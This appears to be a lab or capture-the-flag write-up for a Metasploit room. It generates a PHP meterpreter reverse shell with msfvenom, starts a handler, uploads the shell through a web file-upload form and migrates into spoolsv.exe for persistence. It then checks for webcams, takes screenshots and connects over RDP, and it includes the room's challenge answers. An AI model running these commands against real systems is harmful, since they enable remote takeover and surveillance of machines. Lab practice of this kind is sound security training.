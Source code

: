 # METASPLOIT

## BASIC INFO
```
export IP=10.10.223.171
```

## RECONNAISSANCE

There is a web server running n port 80.
It allows us to upload file...
Reverse php shell?

## GAINING ACCESS

Generate reverse php shell with msfvenom

```
msfvenom -p php/meterpreter/reverse_tcp lhost=10.8.8.177 lport=9001 -f raw > rev_shell.php

```

Fire up msfconsole to listen on the port for incoming traffic

```
msfconsole

use explot/multi/handler
set payload php/meterpreter/reverse_tcp
set lhost tun0
set lport 9001
run -j
```

Now go to the website and upload the file. Then navigate to the file location.

## PRIVILAGE ESCALATION

In metasploit terminal, type `sessions` to see all open sessions available.
`sessions 1` to interact with the session we just created.

> - **Challenge time! What date was the file fileUpload.php created? Enter your answer as YYYY-MM-DD (convert to GMT)**
>> 2018-12-13

Type `shell` to get a interactive shell on the Windows machine
`sysinfo` to have a look over the system info.

## MAINTAINING ACCESS

Currently the shell is only running on a PHP reverse shell. We need to migrate to another process for a more stable shell.
To migrate we need to upgrade the shell first.

```
ctrl^z
sessions -u 1
sessions 2
migrate -N spoolsv.exe
```
First we background current session. Then we upgrade the session from a PHP shell to a TCP shell. Then we interact with the new shell and migrate into spoolsv.exe (common process to migrate into).

## CHALLENGES

> - **Are there any webcams running on the machine? (other steps maybe required)**
>> No

To solve this challenge we first load in kiwi with `load kiwi`. Then we run the command `webcam_list` to show any webcam on the machine.

> - **Take a screenshot of the system (other steps maybe required)**
>> No answer required.

Since we loaded in kiwi, we can just use `screenshot` to get a screenshot of the Dekstop

> - **RDP into the machine**
>> No answer required

RDP is enabled on this machine. So we can just use
`rdesktop -u <username> -p <password> <ipaddress>` to log in.